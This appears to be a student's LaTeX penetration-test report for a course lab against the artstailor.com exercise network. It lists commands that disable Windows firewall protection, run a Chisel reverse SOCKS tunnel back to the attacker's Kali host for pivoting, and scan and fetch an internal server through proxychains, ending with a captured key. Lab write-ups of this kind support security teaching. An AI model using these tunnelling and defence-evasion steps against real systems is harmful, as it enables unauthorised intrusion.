%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test Exercise 0b0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Attack Narrative}

    \subsection{Chisel}
    To start off, a chisel server was started in the local kali VM using the following command
    
    \begin{verbatim}
./chisel server --reverse --socks5
    \end{verbatim}
    
    Where we are given a fingerprint and confirmation the server is on. We can then transfer the Chisel folder to the remote desktop using rdesktop. We also want to see
    the ip address we will use on the microsoft host.
    
    \begin{verbatim}
mktemp -d
cp -r Chisel /tmp/<tmp>
ip a
rdesktop innerouter.artstailor.com -r disk:win32=/tmp/<tmp>
    \end{verbatim}

    We can login use the credentials supplied to log in as a root user. We can also see that the IP we will want to use is 172.24.0.10. Once inside the remote desktop, we can 
    then navigate to the settings and turn off firewall live protection. We can then start the command prompt as admin and navigate to the mounted directory
    with Chisel. From here, we want to run the client which will allow us to pivot from our local host and access other internal servers that we might not have access to.
    
    \begin{verbatim}
chisel.exe client --fingerprint <fingerprint> 172.24.0.10:8080 R:socks
    \end{verbatim}

    \subsection{Proxy Chains and Web Servers}
    We want to make sure our proxychains config is correct and shows the proxy list as localhost (127.0.0.1) and port 1080. We can then use proxychains to get some ports on
    devbox.artstailor.com and get the information on those ports if they are open. We can scan some common web server ports to not take too much time and then use the open port to get 
    a web page if possible

    \begin{verbatim}
proxychains -f proxy.conf nmap -Pn -p 80,443 10.70.184.100
proxychains -f proxy.conf curl 10.70.184.100:80 > devbox.html
xdg-open devbox.html
    \end{verbatim}
    We can also use port forwarding with chisel if we want to be able to open the page on our native browser
    by passing another port forwarding rule as follows
    \begin{verbatim}
.\chisel-64.exe client  --fingerprint <fingerprint> 
                        172.24.0.10:8080 R:socks
                        R:6166:10.70.184.100:80
    \end{verbatim}
    And then open http://0.0.0.0:6166 to view the page on the local browser \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0b0/status}

    Examining the webpage that we revealed from devbox shows us a configuration page for a Debian Apache Server which tells us this server is a Linux Server and this configuration page
    is possibly a development www.artstailor.com page for internal servers. Running the following command also showed the same results

    \begin{verbatim}
proxychains nmap -sV -p 22,80,445 devbox.artstailor.com
    \end{verbatim}

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0b0/OS}

    \subsection{Key}
    Examining the HTML revealed the key in a comment
    \begin{verbatim}
KEY012-uQC1WMZMFC9syMdne+o0pA==
    \end{verbatim}

    \subsection{MITRE ATT{\&}CK Framework TTPs}    
    \subsubsection*{}
    \indent\textbf{TA0011:} Command and Control \\
    \indent\indent\textbf{T1572:} Protocol Tunneling \\
\end{document} 

